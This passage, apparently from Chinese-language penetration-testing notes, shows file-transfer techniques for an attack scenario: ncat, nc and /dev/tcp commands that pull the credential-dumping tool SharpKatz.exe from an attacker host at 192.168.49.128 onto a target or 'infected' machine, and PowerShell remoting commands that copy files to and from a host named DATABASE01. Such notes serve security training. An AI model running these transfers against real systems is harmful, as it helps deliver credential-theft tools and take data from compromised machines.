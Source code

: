 
    # 目标主机
    ncat -l -p 8000 --recv-only > SharpKatz.exe
    # 攻击主机
    ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
    ```
2.  目标主机连接攻击主机

    ```shell
    # 攻击主机--将文件作为输入发送到 Netcat
    sudo nc -l -p 443 -q 0 < SharpKatz.exe
    # 目标主机
    nc 192.168.49.128 443 > SharpKatz.exe

    # 攻击主机 - 将文件作为输入发送到 Ncat
    sudo ncat -l -p 443 --send-only < SharpKatz.exe
    # 受感染机器连接到 Ncat 以接收文件
    ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
    ```
3.  如果目标主机没有 Netcat 和 Ncat 我们可以使用 /dev/TCP 进行传输

    ```shell
    # 攻击主机--将文件作为输入发送到 Netcat
    sudo nc -l -p 443 -q 0 < SharpKatz.exe
    sudo ncat -l -p 443 --send-only < SharpKatz.exe

    # 接收文件
    cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
    ```

### 2. Powershell 会话文件传输

> * 我们可以使用 Powershell Remoting （又称 WinRM） 来执行文件传输操作
> * Powershell Remoting 允许我们使用 Powershell 会话在远程计算机上执行脚本或命令。默认情况下，启用 PowerShell 远程处理会同时创建 HTTP 和 HTTPS 侦听器。侦听器在 HTTP 的默认端口 TCP/5985 和 HTTPS 的 TCP/5986 上运行。

```shell
#  需要管理员权限
# 确认 WinRM 端口 TCP 5985 在 DATABASE01 上打开
Test-NetConnection -ComputerName DATABASE01 -Port 5985
# 创建到 DATABASE01 的 PowerShell 的远程会话
$Session = New-PSSession -ComputerName DATABASE01

# 将 samplefile.txt 从我们的本地主机复制到 DATABASE01 会话
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
# 将 DATABASE.txt 从 DATABASE01 Session 复制到我们的 Localhost
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
